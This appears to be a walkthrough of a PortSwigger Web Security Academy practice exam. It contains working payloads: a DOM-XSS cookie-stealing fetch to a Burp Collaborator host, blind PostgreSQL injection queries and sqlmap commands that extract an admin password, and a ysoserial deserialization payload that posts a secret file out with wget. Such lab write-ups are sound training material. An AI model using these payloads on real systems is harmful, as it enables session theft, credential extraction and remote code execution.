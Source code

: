 # Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)


dots are blocked => first bypass to get cookie => alert(document['cookie']) </br>

Cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.

![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)

![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)


Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

![image](https://user-images.githubusercontent.com/40497633/233630036-b0f18f22-36d5-4e93-9d38-d8a63658da5e.png)


Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233630972-9d0c611e-6f37-458f-8fdc-ba2e5233c144.png)


20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233631386-ddf5a1da-c494-4942-a58d-5c53c868aa30.png)
![image](https://user-images.githubusercontent.com/40497633/233631517-fbbc06d0-1dc7-4886-ae9f-89347e25d57f.png)
![image](https://user-images.githubusercontent.com/40497633/233631598-4bd414ff-a32f-493d-b288-bebf8050dd6c.png)

![image](https://user-images.githubusercontent.com/40497633/233632259-3a0fcab8-dced-4286-bfe1-641aeeb223b5.png)

1234567891011121314151617181920 </br>
b9v9whchew y p e w t l 1 y g v

creds admin: </br>
login: administrator </br>
password: b9v9whchewypewtl1ygv </br>

Administrator account takeover!

![image](https://user-images.githubusercontent.com/40497633/233632577-10e78dca-ac22-4393-88e2-4b3161f3841c.png)


# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

- SQLi => possible - (no interactions on admin panel so only possibility in headers)
- XXE => not possible cause no interactions on admin panel
- SSRF => possible only in headers
- OS injection => possible only on headers
- Deserial => possible + (Cookie look java serialized)
- File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

extension Java deserialisation scanner => exploitation 

![image](https://user-images.githubusercontent.com/40497633/233633030-60e1c7bd-e027-457a-8f42-b6dabbf77025.png)


Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

![image](https://user-images.githubusercontent.com/40497633/233633752-42f9ab49-33e5-402b-ba27-992a27f24541.png)

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

![image](https://user-images.githubusercontent.com/40497633/233633925-7d79152e-d7c9-4f32-a3c7-8350140b6158.png)


/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.

Practical Exam Completed !

![image](https://user-images.githubusercontent.com/40497633/233634102-07d01a1c-a211-4af8-9a77-bf7a8572774e.png)

